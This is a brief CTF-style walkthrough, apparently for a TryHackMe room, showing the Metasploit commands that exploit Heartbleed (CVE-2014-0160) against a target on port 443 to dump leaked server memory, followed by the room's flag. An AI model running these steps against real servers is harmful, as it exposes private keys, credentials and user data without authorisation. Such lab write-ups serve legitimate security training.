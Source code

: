 Metasploit can be used to detect and exploit Heartbleed (CVE-2014-0160) using the openssl_heartbleed auxiliary module.

Run msfconsole command and use scanner module.
```BASH
msfconsole
```

```BASH
use auxiliary/scanner/ssl/openssl_heartbleed
```

SET RHOSTS
```BASH
set RHOSTS VICTIM_IP_ADDRESS
```

SET RPORT
```BASH
set RPORT 443
```

Add verbose mode
```
set VERBOSE true
```

Use run command
```BASH
run
```

This will scan the target and dump leaked memory. You can inspect the results manually for any sensitive information.  

![image](https://github.com/user-attachments/assets/10bf4550-8a7f-495b-8ea0-7ed661e3b56a)
![image](https://github.com/user-attachments/assets/2543f5f5-9a21-47c1-825c-e953add49c76)

CTF flag
<pre>THM{sSl-Is-BaD}</pre>
